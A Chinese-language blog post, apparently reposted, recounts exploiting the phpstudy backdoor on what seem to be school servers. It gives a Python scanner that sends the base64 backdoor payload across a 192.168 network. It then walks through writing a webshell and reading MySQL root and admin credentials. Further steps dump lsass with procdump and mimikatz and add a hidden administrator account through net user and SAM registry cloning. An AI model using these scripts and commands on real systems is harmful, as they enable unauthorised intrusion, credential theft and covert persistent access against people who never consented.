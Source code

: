 # phpstudy存在后门

[2020-04-19]()

## [](#前言 "前言")前言

前段时间 phpstudy 被爆出存在后门，想到学校里的许多站都是用 phpstudy 做的环境，于是写了个脚本扫描了下，发现真的有中招的。  

### [](#phpstudy后门扫描 "phpstudy后门扫描")phpstudy后门扫描

写了个简单的脚本

```
import requests
import threading

# f = open("ip.txt",'w')
def test(ip):
    url = "http://{}:80/index.php".format(ip)
    headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.132 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3", "Accept-Language": "zh,zh-TW;q=0.9,en-US;q=0.8,en;q=0.7,zh-CN;q=0.6", "Accept-Charset": "ZWNobyAiZGFvbGd0cyI7", "Accept-Encoding": "gzip,deflate", "Connection": "close"}
    try:
        r = requests.get(url, headers=headers)
        if "daolgts" in r.content:
            # f.write(ip+"\n")
            print "[+] found\t"+ip
        # else:
            # print "[-] nope\t"+ip
    except:
        pass
        # print "[-] nope\t"+ip

thread=[]
for _ in range(1,256):
    print "[-] ip :"+_+"next..."
    for i in range(1,256):
        ip = "192.168."+str(_)+"."+str(i)
        t=threading.Thread(target=test,args=(ip,))
        thread.append(t)
        t.start()

for x in thread:
    t.join()
```

最后只有一个 ip 能够利用

### [](#getshell "getshell")getshell

根据 payload 可以执行任意的 php 代码

先 getcwd\(\) 看下位置  
![](1.png)

```
var_dump(getcwd());
dmFyX2R1bXAoZ2V0Y3dkKCkpOw==
string(12) "C:\phpStudy2"
```

  
  
var\_dump\(scandir\(“C:\\phpStudy2”\)\);  
var\_dump\(scandir\(“C:\\phpStudy2\\PHPTutorial”\)\);  
var\_dump\(scandir\(“C:\\phpStudy2\\PHPTutorial\\WWW”\)\);

找到网站目录 C:\\phpStudy2\\PHPTutorial\\WWW

然后利用 file\_put\_contents 写个马  

找到网站目录 `C:\phpStudy2\PHPTutorial\WWW`

然后 `file_put_contents` 写个马

这里使用了蚁剑的插件生成shell，配合蚁剑连接使用  
![](2.png)  
![](3.png)

成功连接  
![](4.png)  
emmm，直接就是 administrator 了，也没有内网环境，后来发现是一台虚拟机，枯燥。。

看下端口  
![](5.png)

发现开启了 3306 和 9833，3306 是 mysql ，这个 9833 应该就是修改了的 3389 的端口mysql 的密码在 config.php 中能找到，而且是 root 用户

使用蚁剑连接，在数据库中发现网站后台的管理员密码  
![](6.png)

然后目标转向 9983  
kali 下使用 rdesktop 有问题  
![](7.png)  
windows 里 mstsc.exe 可以正常连接

然后抓下密码，先传个 procdump64.exe，执行

```
procdump64.exe -accepteula -ma lsass.exe 1.dmp
```

得到 1.dmp ，使用 mimikatz.exe 读

```
sekurlsa::minidump lsass.dmp
sekurlsa::logonPasswords full
```

![](8.png)

emmm，不知道为什么抓不到密码，也尝试了传 mimikatz.exe 直接读，同样失败

1.  既然已经拿到了 administrator 权限，直接添加一个后门用户吧

    net user defaultuser0\$ somepasswordhere /add /y  
    net localgroup administrators defaultuser0\$ /add  
    net localgroup “remote desktop users” defaultuser0\$ /add

使用该账号密码，成功登录

用户名后添加 \$ 在 cmd 里使用 net user 查看时是可以隐藏的，但在图形界面下还是会显示

2.  接下来操作注册表，使这个账户在图形界面中也不显示

* 输入 regedit 打开注册表编辑器，找到 HKEY\_LOCAL\_MACHINE\\SAM\\SAM,右键点击权限，将读写权限赋予 administrator

![](9.png)

* 找到后门用户和 administrator 用户对应的目录

![](10.png)

* 将 administrator 对应目录中的F值复制到后门用户对应目录中的F值  
  ![](11.png)
* 复制完成后，把 defaultuser0\$ 和其对应的 0000003EA 目录导出并保存，然后删除刚才的后门用户

  net user defaultuser0\$ /del

然后重新导入注册表，这样就添加了一个隐藏的用户，使用 defaultuser0\$ 和密码就能登陆为 administrator  
![](12.png)  
事后，发现登着 tim 呢，找到 qq 号，进行亲切友好的交谈  
![](13.png)  
![](14.png)

## [](#写在最后 "写在最后")写在最后

本文转自合天智汇，如有侵权请联系作者，立即删除。  
原文链接：<https://mp.weixin.qq.com/s/97I6jIvKzjHxmTboSyd86A>

**声明：作者初衷用于分享与普及网络知识，若读者因此作出任何危害网络安全行为后果自负，与合天智汇及原作者无关。**